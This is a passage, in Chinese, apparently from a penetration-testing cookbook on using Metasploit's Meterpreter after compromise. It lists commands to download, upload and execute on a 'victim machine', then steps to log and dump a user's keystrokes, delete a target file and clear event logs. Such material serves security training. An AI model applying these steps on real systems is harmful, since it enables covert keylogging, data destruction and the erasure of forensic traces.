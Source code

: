 +   `download`：这个命令允许你从受害者机器中下载文件。

+   `upload`：这个命令允许你向受害者机器上传文件。

+   `execute`：这个命令允许你在受害者机器上运行命令。

+   `shell`：这个命令允许你在受害者机器上运行 Windows shell 提示符（仅限于 Windows 主机）。

+   `session -i`：这个命令允许你在会话之间切换。

### 准备

需要满足下列要求：

+   内部网络或互联网的连接。

+   使用 Armitage，MSFCLI 或 MSFCONSOLE 由 Metasploit 创建好的，目标系统的活动会话。

### 操作步骤

让我们打开 MSFCONSOLE 来开始：

1.  首先我们以 MSFCONSOLE 中展示的活动会话开始。

2.  开始记录目标系统中用户的击键顺序：

    ```
    keyscan_start 
    ```
    
3.  转储目标系统中用户的击键顺序。击键顺序会显示在屏幕上：

    ```
    keyscan_dump 
    ```
    
4.  停止记录目标系统中用户的击键顺序。

    ```
    keyscan_stop 
    ```
    
5.  删除目标系统中的文件。

    ```
    del exploited.docx 
    ```
    
6.  清除目标系统中的事件日志。

    ```
    clearav 
    ```
    
7.  展示运行进程的列表。

    ```
    ps
    ```
    